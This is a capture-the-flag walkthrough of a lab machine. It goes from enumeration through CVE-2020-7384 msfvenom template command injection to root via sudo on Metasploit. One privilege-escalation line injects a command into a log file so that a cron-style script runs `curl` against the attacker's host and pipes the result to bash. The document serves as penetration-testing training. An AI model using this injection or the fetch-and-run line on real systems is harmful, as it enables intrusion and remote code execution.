ip addr: 10.129.95.150


# initial enumeration

nmap result: 


services:

| service | port | version|
|---------|-------|---------|
| ssh | 22 | 8.2p1 ubuntu|
| werkzeug httpd| 5000 | 0.16.1 (python 3.8.5 ) |

we have an http title:  `k1d'5 h4ck3r t00l5` : "kid's hacker tools"

lets run a dirbust to see what we have for directories while we check out the website:


dirbust came out empty

## The website:



this page has some generic hacker stuff, like the nmap scan, searchsploit and the payload generator. 
it seems like it takes the given ip and runs an nmap scan on it. probably sending a filtered ip to the server and executing the nmap command. 

trying to inject code into the fields return an error but the searchsploit result returns something odd:

hmmmm odd. trying to fuzz it with command injection texts don't work so maybe its a dead end? 
lets try to look at that metasploit template feature. it accepts only android, linux and windows templates. why specifically android though? that's a fairly unique template.

also it's asking for a template file. hmmm

we know we can't inject commands to the searchsploit field and the nmap field.. lets see if the metasploit payload is vulnerable to something because the android field sounds weird. 
the hunch was right, because there's a command injection vulnerability, dubbed [CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-7384)
lets see if its vulnerable:

# Foothold
 
let's use the `exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection`
from the metasploit console and generate a payload, then let's just tell the website to use our template:




# User flag

we got a shell!



user flag was in the `kid` user home directory

# Privesc

i generated an ssh key and logged into the box with it and started running some basic enumeration and found another folder called `pwn` that has a script called `scanlosers.sh`:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi

```

we can inject commands into that script and potentially get a shell as the `pwn` user.

i created a small file with a simple bash reverse shell, wrote a small payload and echoed it into the `hackers` file which gave me shell as pwn:



payload:  `echo "a   ;curl 10.10.17.78:8000/shell.sh | bash; " > hackers `

between the `a` and the `;curl...` there are 3 spaces because the script cuts at the delimiter of space and then skips 3 characters then reaches the shell command

## Root flag
 running the command `sudo -l` shows us we can use the metasploit framework as root:
 


well since the program is running as root and we can execute commands locally, meaning we can just execute commands as root really simply:



as you can see, our current privileges are root. so lets cd into the root directory:



and read the root flag:




# Closing notes
thanks to [0xdf](https://twitter.com/0xdf_?s=20&t=3IbhpW5SS6NnjoPilVSLZA) for the dope and informative box, 
and thank you for reading this post :)